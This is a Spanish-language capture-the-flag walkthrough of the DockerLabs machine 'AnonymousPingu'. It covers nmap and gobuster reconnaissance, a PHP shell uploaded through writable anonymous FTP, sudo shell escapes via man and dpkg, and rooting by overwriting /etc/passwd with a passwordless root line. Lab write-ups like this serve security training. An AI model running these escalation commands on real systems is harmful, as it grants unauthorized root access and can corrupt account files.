


Maquina "AnonymousPingu" de [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Fácil



# RECONOCIMIENTO

Comenzamos haciendo un escaneo de `nmap`:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 <ip> -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Mon Sep  9 23:17:04 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000016s latency).
Scanned at 2024-09-09 23:17:05 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    1 0        0             118 Jan 01  1970 css
| drwxr-xr-x    1 0        0               0 Apr 28 18:28 heustonn-html
| drwxr-xr-x    1 0        0             574 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28 18:32 index.html
| drwxr-xr-x    1 0        0              62 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33              0 Sep 10 02:07 upload [NSE: writeable]
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  9 23:17:13 2024 -- 1 IP address (1 host up) scanned in 9.18 seconds
```

Como vemos tenemos el puerto 80 abierto y el ftp, el cual tiene login anonimo y además parece que estamos dentro de la propia página, para confirmarlo podemos hacer uso de `gobuster` y ver que directorios o archivos tiene la máquina:

```css
 gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 20162]
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/about.html           (Status: 200) [Size: 7816]
/contact.html         (Status: 200) [Size: 8102]
/upload               (Status: 301) [Size: 309] [--> http://172.17.0.2/upload/]
/service.html         (Status: 200) [Size: 9808]
/css                  (Status: 301) [Size: 306] [--> http://172.17.0.2/css/]
/js                   (Status: 301) [Size: 305] [--> http://172.17.0.2/js/]
Progress: 166877 / 882244 (18.92%)
===============================================================
Finished
===============================================================
```

Como podemos ver estamos en la propia página, por lo que teniendo en cuenta que la carpeta `upload` es accesible desde el navegador y que podemos escribir en ella con ftp, tenemos que subir a traves de ftp un php malicioso que nos permita ejecutar comandos dentro de la máquina.

# INTRUSION

Para esto podemos usar el script que hice para esta máquina:

[Script](https://github.com/Maciferna/DockerLabs/blob/main/maquina-anonymouspingu/scripts/intrusion.sh)

Una vez descargado, le damos permisos con `chmod +x intrusion.sh`, luego escuchamos con netcat en el puerto 9090:

```css
nc -nlvp 9090
```

ahora solo ejecutamos el script y ya habremos ganado acceso como www-data.

# ESCALADA DE PRIVILEGIOS

### www-data

Ahora que estamos dentro, haremos el tratamiento de la tty:

```css
script /dev/null -c bash # Lo ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Ejecutamos y le damos al enter, luego escribimos "reset xterm" y enter
export TERM=xterm && export SHELL=bash
```

Ahora si ejecutamos un `sudo -l` veremos que podemos ejecutar el binario man como "pingu". Ahora ejecutaremos `sudo -u pingu man find` y se nos abrirá un menú, una vez en el menú ponemos `!/bin/bash` y ya pivotaremos a pingu

## Pingu

Si ejecutamos `sudo -l` veremos que se puede ejecutar dpkg como gladys, por lo que ejecutaremos `sudo -u gladys dpkg -l` y en el menú nuevamente `!/bin/bash`.

### Gladys

Ahora, podemos ejecutar chown como gladys, por lo que podemos modificar el passwd eliminando la "x" del usuario root para poder cambiar de usuario sin contraseña, para hacerlo tenemos que ejecutar lo siguientes dos comandos:

```css
sudo chown gladys:gladys /etc/
sudo chown gladys:gladys /etc/passwd
```

Ahora como no tenemos nano, haremos algo a lo bruto, que seria dejar el passwd solo con las cosas de root pero sin la "x", y una vez escalamos instalamos nano y ponemos el passwd como antes. Para hacerlo usaremos `echo`:

```css
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd
```

una vez hecho esto ejecutamos `su` y ya seremos root, pero para que no quede todo corrupto, instalamos nano con `apt install nano`, y luego editamos el `/etc/passwd` pegando esto:

```css
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:996:996:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:103:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
systemd-resolve:x:995:995:systemd Resolver:/:/usr/sbin/nologin
pingu:x:1001:1001::/home/pingu:/bin/bash
gladys:x:1002:1002::/home/gladys:/bin/bash
```

y ahora seremos root sin problemas con los demás usuarios:



Gracias por leer.